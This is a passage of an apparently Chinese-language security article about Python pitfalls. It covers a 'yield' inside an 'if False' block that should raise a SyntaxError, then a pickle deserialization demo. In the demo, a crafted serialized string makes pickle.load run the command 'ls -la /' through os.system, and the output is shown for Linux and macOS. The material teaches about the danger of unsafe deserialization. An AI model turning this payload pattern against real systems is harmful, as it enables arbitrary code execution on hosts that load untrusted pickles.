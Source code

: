     try:    
        if False:   
            yield 5 
        print("T2-FAIL")    
    except Exception as e:  
        print(repr(e))  
        pass
    

以上的测试代码应该返回一个语法错误：_SyntaxError: 'yield' outside function_。在不同版本的Python上运行结果如下：

![](http://static.wooyun.org//drops/20151110/2015111005262549845313.png)

这个问题在最新的Python 2.7.x版本中已经解决，而且避免使用像"**if 0:**"，"**if False:**"，"**while0:**"，"**while False:**"之类的结构。

# 0x04 Files —> sys, os, io, pickle, cpickl

* * *

## pickle

    
    
    #!python
    import pickle   
    import io   
    badstring = "cos\nsystem\n(S'ls -la /'\ntR."    
    badfile = "./pickle.sec"    
    with io.open(badfile, 'wb') as w:   
        w.write(badstring)  
    obj = pickle.load(open(badfile))    
    print "== Object =="    
    print repr(obj)
    

这里构造恶意序列化字符串，以二进制的形式写入文件中，使用`pickle.load()`函数加载进行反序列化，还原出原始python对象，从而使用os的`system()`函数来执行命令"`ls -la /`"。由于`pickle`这样**不**安全的设计，就可以借此来**执行命令**了。代码输出结果如下：

  * Linux
    
        total 104
    drwxr-xr-x  23 root root  4096 Oct 20 11:19 .
    drwxr-xr-x  23 root root  4096 Oct 20 11:19 ..
    drwxr-xr-x   2 root root  4096 Oct  4 00:05 bin
    drwxr-xr-x   4 root root  4096 Oct  4 00:07 boot
    ...
    

  * Mac OS X
    
        total 16492 
    drwxr-xr-x    31 root wheel     1122 12 Oct 18:58 . 
    drwxr-xr-x    31 root wheel     1122 12 Oct 18:58 ..    
    drwxrwxr-x+  122 root wheel     4148 10 Oct 15:19 Applications
    drwxr-xr-x+   68 root wheel     2312  3 Sep 10:47 Library
    ...
    